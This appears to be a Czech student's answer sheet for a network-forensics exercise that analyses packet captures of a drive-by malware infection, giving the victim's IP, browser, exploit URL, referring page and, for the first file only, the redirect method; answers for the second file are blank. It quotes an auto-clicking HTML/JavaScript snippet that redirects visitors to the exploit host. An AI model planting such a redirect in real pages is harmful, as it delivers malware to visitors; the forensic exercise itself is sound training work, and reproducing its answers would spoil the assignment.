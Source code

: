 # Zadání první části – soubor uloha1.pcap

### 1. Jaká je IP adresa stanice, která byla infikována?

```
127.80.179.181
```

### 2. Jaký prohlížeč infikovaná stanice používala?

Internet Explorer 8.0

User-Agent:
```
Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
```

### 3. Jaká je URL, ze které byl exploit stažen?

```
http://static.this-is-not-a-botnet.com/3h251q2c35
```

### 4. Jaká je URL webové stránky, ze které se stanice dostala na URL s exploitem?

```
http://akronkappas.com//d2a42e1f7d9a1021bd7d93af414c95c4.php?q=70a9b40eb73da11445c3a3609c8241d9
```

### 5. Jakým způsobem došlo k přesměrování na externí URL se škodlivým kódem?

```
<a id='myLink' href='http://static.this-is-not-a-botnet.com/3h251q2c35'>click</a><script>document.getElementById('myLink').click();</script>
```

# Zadání druhé části – soubor uloha2.pcap

### 1. Která URL adresa (uveďte alespoň doménu) způsobila infekci stanice?

```

```

### 2. Jak se uživatel dostal na danou doménu?

```

```

### 3. Samotný malware je uložen na jiné (externí) URL adrese. Jaká je to adresa?

```

```

### 4. Jakým způsobem došlo k přesměrování na externí URL se škodlivým kódem?

```

```
